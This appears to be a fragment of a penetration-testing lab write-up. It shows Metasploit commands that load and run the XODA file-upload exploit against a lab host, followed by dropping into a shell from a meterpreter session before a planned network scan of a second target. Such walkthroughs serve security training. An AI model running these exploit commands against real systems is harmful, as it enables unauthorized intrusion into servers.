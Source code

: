 * Exploitation

```bash
search xoda
use exploit/unix/webapp/xoda_file_upload
set RHOSTS 192.41.167.3
set TARGETURI /
run
```

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

* Perform a network scan on the second target

```bash
meterpreter > shell
```
